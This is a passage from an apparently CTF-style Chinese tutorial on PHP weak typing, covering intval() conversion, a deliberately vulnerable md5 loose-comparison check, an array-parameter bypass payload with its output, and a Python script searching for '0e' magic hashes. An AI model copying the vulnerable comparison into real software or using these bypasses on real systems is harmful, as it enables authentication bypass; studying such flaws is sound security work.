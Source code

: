 字符串转数值时,调用了`intval()`取整函数,而这个函数在转换字符串的时候即使碰到不能转换的字符串的时候它也不会报错,而是返回0

```php
<?php
var_dump(intval(4));
var_dump(intval("10asd"));
var_dump(intval("asd10"));
var_dump(intval(1.23));
?>
```

```
int(4)
int(10)
int(0)
int(1)
```

### 经典md5弱类型比较

```php
<?php
if(isset($_POST['a']) and isset($_POST['b'])){
    if($_POST['a']!=$_POST['b']){
        if(md5($_POST['a'])==md5($_POST['b'])){
            var_dump($_POST['a']);
            var_dump($_POST['b']);
            var_dump(md5($_POST['a']));
            var_dump(md5($_POST['b']));
            echo 'flag';
        }
    }
}
?>
```

1. md5不能加密数组,在加密数组的时候会返回`NULL`,因此POST传参`a[]=1&b[]=2`

```
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 4

Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 4
array(1) { [0]=> string(1) "1" } array(1) { [0]=> string(1) "2" }
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 7
NULL
Warning: md5() expects parameter 1 to be string, array given in /var/www/html/index.php on line 8
NULL flag
```

2. md5进行的是弱类型比较,如果两个md5之后的结果均为`0e`开头的字符串则会被判断为相等

```python
import hashlib
import re

for i in range(1000000000):
    a = hashlib.md5(str(i).encode("utf-8")).hexdigest()
    if re.match('^0e\d+$', a) is not None:
        print(i, a)

```
